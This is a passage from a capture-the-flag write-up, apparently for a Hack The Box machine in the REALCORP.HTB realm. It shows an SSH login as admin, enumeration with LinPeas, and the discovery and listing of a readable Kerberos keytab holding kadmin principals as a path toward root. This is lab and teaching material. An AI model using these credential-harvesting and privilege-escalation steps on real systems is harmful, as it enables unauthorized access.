 Now we have to wait for the cronjob to be executed.

```bash
root@darkness:~# ssh -K admin@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb 23 20:29:01 2021
[admin@srv01 ~]$
```

We successfully get a shell as admin and can now continue our search for a privesc-vector to root.

### Enumeration as admin

Let us run an enumeration-script on the machine (I am going to use [LinPeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh)).

When we look at the output of the script, we are made aware of two files that belong to root and are not generally readable, but readable by admin.

```bash
[...]
[+] Readable files belonging to root and readable by me but not world readable
-rw-r-----. 1 root squid 3236 Dec 21 08:09 /etc/squid/squid.conf
-rw-r-----. 1 root admin 1403 Dec 19 06:10 /etc/krb5.keytab
[...]
```

The `/etc/krb5.keytab` file is only readable by root and admin. Let us have a closer look at the file.

```bash
[admin@srv01 ~]$ file /etc/krb5.keytab
/etc/krb5.keytab: Kerberos Keytab file, realm=REALCORP.HTB, principal=host/srv01.realcorp.htb, type=1, date=Tue Dec  8 22:15:30 2020, kvno=2
```

Let us research what this file does and how to open it.

According to the [MIT Kerberos Documentation](https://web.mit.edu/kerberos/krb5-devel/doc/basic/keytab_def.html), the keytab ("key table") is a file that stores keys for principals. We can open the file using `klist -k <file>`.

```bash
[admin@srv01 ~]$ klist -k /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```
